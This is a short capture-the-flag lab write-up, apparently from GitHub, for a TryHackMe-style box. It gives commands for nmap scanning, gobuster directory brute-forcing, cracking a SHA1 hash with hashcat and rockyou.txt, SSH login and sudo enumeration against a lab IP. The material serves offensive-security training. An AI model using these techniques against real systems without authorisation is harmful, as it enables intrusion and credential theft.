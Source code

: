 # CC - Pen Testing

## Methodology:

**Scanning/Reconnaisance**
   * nmap →  nmap -A 10.10.51.180
   
**Enumeration**
  * Gobuster/Dirbuster

**Exploitation**
  * Hashcat → hashcat --force -m 1800 <hash> /root/List/rockyou.txt --session sha512

**Privilege Escalation**
  * sudo -l

**Capturing the flag**
* user.txt
* root.txt

______________________________________________________________________________________________________________________________________

## Walktrhough

### NMAP

First, we do nmap the IP. From the result there is only 2 port open. (22 & 80)

```
nmap -A 10.10.51.180
```

![image](https://user-images.githubusercontent.com/44063862/83943783-31c3c980-a831-11ea-8893-ee4626d0d68c.png)

### Gobuster

Open, port 80 on web, there is only page apache. Maybe we need to dirb. But, I prefer gobuster.

```
gobuster dir -u http://10.10.51.180/ -w /root/List/directory-list-2.3-medium.txt -t 80 -x .txt,.php,.html
```

Well, the directory that we found giving us a blank page. Dirb again as /secret is (301) which means a directory.

```
gobuster dir -u http://10.10.51.180/secret/ -w /root/List/directory-list-2.3-medium.txt -t 80 -x .txt,.php,.html
```

![image](https://user-images.githubusercontent.com/44063862/83943996-ef02f100-a832-11ea-8fe4-ccbe8b72cc06.png)

### Hashcat

Well, what hash is this? Check it through [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)

Next, after found out the hash type, we need to find out the hash mode. 

I suggest this website. [Hash](https://hashcat.net/wiki/doku.php?id=example_hashes)

```
hashcat --force -m 100 046385855FC9580393853D8E81F240B66FE9A7B8 /root/List/rockyou.txt --session SHA1
```

![image](https://user-images.githubusercontent.com/44063862/83944022-1f4a8f80-a833-11ea-992a-c1d426be7cd1.png)

### Privilege Escalation

```
ssh nyan@10.10.51.180
```

![image](https://user-images.githubusercontent.com/44063862/83944050-4acd7a00-a833-11ea-9179-adf52e8c4b93.png)

```
sudo -l
```

![image](https://user-images.githubusercontent.com/44063862/83944066-5faa0d80-a833-11ea-87d4-a004556a3753.png)

![image](https://user-images.githubusercontent.com/44063862/83944383-ad277a00-a835-11ea-90ac-71b829e16ea5.png)


CONGRATULATIONS, we got the flag.

**By _AdaniKamal_**























